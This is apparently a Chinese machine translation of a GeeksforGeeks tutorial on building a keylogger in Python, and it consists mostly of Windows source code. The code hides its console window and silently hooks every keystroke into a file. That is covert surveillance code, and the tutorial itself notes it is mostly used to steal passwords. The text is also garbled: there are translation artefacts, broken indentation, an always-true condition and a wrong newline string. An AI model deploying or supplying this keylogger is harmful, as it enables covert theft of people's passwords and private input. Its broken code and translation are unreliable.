# 用 Python 设计一个键盘记录器

> 原文:[https://www.geeksforgeeks.org/design-a-keylogger-in-python/](https://www.geeksforgeeks.org/design-a-keylogger-in-python/)

击键记录是记录(记录)在键盘上按下的键的过程(通常在用户不知道的情况下)。它也被称为键盘记录或键盘捕获。
这些程序用于排除计算机和商业网络的技术问题。它也可以用来监控网络使用情况，但更多时候它被用于恶意目的，如窃取密码。
本文展示了为 windows 和 Linux 设计一个键盘记录器。

**视窗键盘记录器**

下载一些 python 库
1)[pywin32](http://www.lfd.uci.edu/~gohlke/pythonlibs/#pywin32)T3】2)[pyhook](http://www.lfd.uci.edu/~gohlke/pythonlibs/#pyhook)'
下面是用 python 创建键盘记录程序的代码

## 蟒蛇 3

```
# Python code for keylogger
# to be used in windows
import win32api
import win32console
import win32gui
import pythoncom, pyHook

win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)

def OnKeyboardEvent(event):
    if event.Ascii==5:
        _exit(1)
    if event.Ascii !=0 or 8:
    #open output.txt to read current keystrokes
        f = open('c:\output.txt', 'r+')
        buffer = f.read()
        f.close()
    # open output.txt to write current + new keystrokes
        f = open('c:\output.txt', 'w')
        keylogs = chr(event.Ascii)
        if event.Ascii == 13:
        keylogs = '/n'
        buffer += keylogs
        f.write(buffer)
        f.close()
# create a hook manager object
hm = pyHook.HookManager()
hm.KeyDown = OnKeyboardEvent
# set the hook
hm.HookKeyboard()
# wait forever
pythoncom.PumpMessages()
```